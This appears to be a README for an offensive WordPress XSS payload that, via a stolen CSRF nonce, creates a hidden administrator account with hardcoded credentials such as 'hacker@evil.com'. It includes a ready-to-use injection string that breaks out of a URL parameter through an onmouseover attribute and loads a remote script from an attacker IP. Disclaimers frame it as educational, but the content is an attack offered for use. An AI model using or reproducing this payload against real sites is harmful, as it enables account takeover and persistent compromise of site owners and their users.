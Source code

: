 # WordPress Weaponized XSS Payload: Create Admin User
This JavaScript code demonstrates how to exploit an **XSS (Cross-Site Scripting)** vulnerability on a WordPress site to create a new **administrator user** by injecting a malicious payload.

## ⚠️ Disclaimer

This code is provided **for educational purposes only**. The use of this code without authorization is illegal. Please ensure you have permission from the website owner before performing any tests or deploying this script.

## 🛠️ How It Works

1. **Fetch the HTML** of the `/wp-admin/user-new.php` page to extract the CSRF token.
2. **Parse the `_wpnonce`** value from the response.
3. **Send a POST request** to create a new administrator user with the following credentials:
   - **Username**: `hackwordpress`
   - **Email**: `hacker@evil.com`
   - **Password**: `passw0rd`
---

## 🚨 Legal Notice

This script is intended for **authorized penetration testing and educational purposes only**. Unauthorized use of this code against websites is illegal and unethical. The authors of this code do **not take responsibility** for any misuse.

---

## 🧑‍💻 Usage

1. Copy and paste the script into a browser console or inject it via an **XSS vulnerability**.
For example: ``http://target.com/?page=" onmouseover="var script = document.createElement('script'); script.src = 'http://XX.XX.XX.XX/payload.js'; document.head.appendChild(script);``
3. Ensure you are **authenticated as an administrator** in the target WordPress site.
4. The script will create a new administrator user with the provided credentials.
